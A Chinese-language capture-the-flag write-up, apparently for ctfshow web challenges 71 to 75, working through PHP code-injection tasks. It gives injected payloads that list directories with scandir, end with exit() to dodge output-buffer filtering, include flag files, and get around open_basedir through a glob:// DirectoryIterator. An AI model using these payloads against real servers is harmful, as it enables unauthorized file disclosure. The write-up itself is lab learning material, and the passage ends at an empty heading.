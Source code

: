 ![image.png](https://img08.mifile.cn/v1/MI_542ED8B1722DC/7d2e12b08d531044277d4f6f4fd18961.png)

## Web71：

![image.png](https://img08.mifile.cn/v1/MI_542ED8B1722DC/617544da264e3a9c6bdba9ebd2606ad2.png)

解题思路：$s = ob\_get\_contents();//得到缓冲区的数据。

ob\_end\_clean();//会清除缓冲区的内容，并将缓冲区关闭，但不会输出内容 。

解决办法：c=var\_export(scandir('/'));发现输出的一大堆问号，原来是因为源码中用函数将缓冲区的所有字符全部替换为问号，那么可以用exit()/die()提前结束，这样就不会将字符替换为问号。

Playload：c=var\_export(scandir('/'));exit();

c=include("/flag.txt");die();

![image.png](https://img07.mifile.cn/v1/MI_542ED8B1722DC/9cf84e2fd45cf4c4e2f9b951fa020892.png)

**Web72**** （不会）**：

![image.png](https://img08.mifile.cn/v1/MI_542ED8B1722DC/284e9ae8aeafa89487e8f68e150fd02c.png)

解题思路：

var\_export(scandir('.'));die(); #可以正常读取

var\_export(scandir('/'));die(); #读取失败

得出开启了open\_basedir，

open\_basedir可将用户访问文件的活动范围限制在指定的区域，通常是其家目录的路径。

所以要先绕过open\_basedir。首先排除命令执行绕过的可能，disable\_function已经禁用了命令执行函数（不知道有没有什么办法绕过）。可以使用glob伪协议绕过，glob伪协议筛选目录不受open\_basedir的制约。

## Web73：

解题思路：c=var\_export(scandir('/'));exit();查看根目录。

c=include("/flagc.txt");exit(); 得到flag。

![image.png](https://img07.mifile.cn/v1/MI_542ED8B1722DC/a7d897a82dec4d7d7c646e383620dbe3.png)

## Web74：

解题思路：利用glob协议，查看根目录文件

c=$a=new DirectoryIterator("glob:///\*");foreach($a as $f){echo($f-\>\_\_toString().' ');}exit(0);

然后通过c=include("/flagx.txt");exit();

![image.png](https://img03.mifile.cn/v1/MI_542ED8B1722DC/43ccb95150fe0361bcf44519844913a5.png)

## Web75，76:
